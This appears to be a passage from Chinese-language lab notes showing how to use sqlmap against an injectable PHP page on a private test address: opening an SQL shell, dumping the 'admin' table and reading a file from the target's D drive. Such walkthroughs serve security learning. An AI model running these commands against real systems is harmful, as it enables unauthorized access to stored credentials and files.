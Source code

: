 



##### 打开SQL数据库命令模式

```
python sqlmap.py -u http://192.168.100.2/sqli2/new.php?id=1 --sql-shell
```

查询数据库版本

```
select version();
```

![image-20240412112948446](../图片/image-20240412112948446.png)

查询admin中的数据

```
select * from admin;
```

![image-20240412113236396](../图片/image-20240412113236396.png)

##### 读取文件

读取D盘中的123.txt

```
python sqlmap.py -u http://192.168.100.2/sqli2/new.php?id=1 --file-read "d:\123.txt
```

读取成功保存在本地中

![image-20240412113737750](../图片/image-20240412113737750.png)

![image-20240412113907663](../图片/image-20240412113907663.png)
